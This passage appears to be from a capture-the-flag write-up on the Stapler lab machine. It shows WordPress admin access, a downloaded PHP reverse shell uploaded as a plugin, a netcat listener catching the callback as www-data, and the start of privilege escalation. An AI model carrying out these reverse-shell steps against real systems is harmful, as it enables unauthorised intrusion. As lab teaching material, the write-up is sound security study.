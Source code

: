We are quickly able to find additional passwords to the ones found during the `wpscan`.  
If we login with John's account, we see that his admin account has greater capabilities than the other accounts.
This account is able to upload new media and new plugins, so we might be able to upload a reverse shell.
A reverse shell would make the WordPress web service try to connect back to our machine and allow us to establish a connection to the back end server and gain a foothold.

If we look up php reverse shells there are a lot of simple php shells, however many either do not work or only work on specific systems.  
One of the first results is a php shell by [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).
We can download the reverse shell with _wget_, then upload it as a plugin to the blog with our ip and an arbitrary port.  
We can use `netcat` to setup of a listener that will receive the connecting reverse shell.  
When we access the uploaded reverse shell through the blog uploads directory, we gain a foothold as www-data on the Stapler machine running the WordPress blog.  

```
$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

$ nc -nlvp 12345

listening on [any] 12345 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.5] 38050
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 athlon i686 GNU/Linux
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

# Privilege escalation
Now that we have a foothold, we can begin exploring any ways that make escalation to root access possible.  

We have access to a home folder, in which there are some available users. We can use _ls_ to check whether there is anything interesting in any of the user folders.

```
$ ls -alR home/

home:
total 128
drwxr-xr-x 32 root       root       4096 Jun  4  2016 .
drwxr-xr-x 22 root       root       4096 Jun  7  2016 ..
drwxr-xr-x  2 AParnell   AParnell   4096 Jun  5  2016 AParnell
drwxr-xr-x  2 CCeaser    CCeaser    4096 Jun  5  2016 CCeaser
drwxr-xr-x  2 CJoo       CJoo       4096 Jun  5  2016 CJoo
drwxr-xr-x  2 DSwanger   DSwanger   4096 Jun  5  2016 DSwanger
drwxr-xr-x  2 Drew       Drew       4096 Jun  5  2016 Drew
drwxr-xr-x  2 ETollefson ETollefson 4096 Jun  5  2016 ETollefson
drwxr-xr-x  2 Eeth       Eeth       4096 Jun  5  2016 Eeth
drwxr-xr-x  2 IChadwick  IChadwick  4096 Jun  5  2016 IChadwick
drwxr-xr-x  2 JBare      JBare      4096 Jun  5  2016 JBare
drwxr-xr-x  2 JKanode    JKanode    4096 Jun  5  2016 JKanode
drwxr-xr-x  2 JLipps     JLipps     4096 Jun  5  2016 JLipps
drwxr-xr-x  2 LSolum     LSolum     4096 Jun  5  2016 LSolum
drwxr-xr-x  2 LSolum2    LSolum2    4096 Jun  5  2016 LSolum2
drwxr-xr-x  2 MBassin    MBassin    4096 Jun  5  2016 MBassin
drwxr-xr-x  2 MFrei      MFrei      4096 Jun  5  2016 MFrei
drwxr-xr-x  2 NATHAN     NATHAN     4096 Jun  5  2016 NATHAN
```
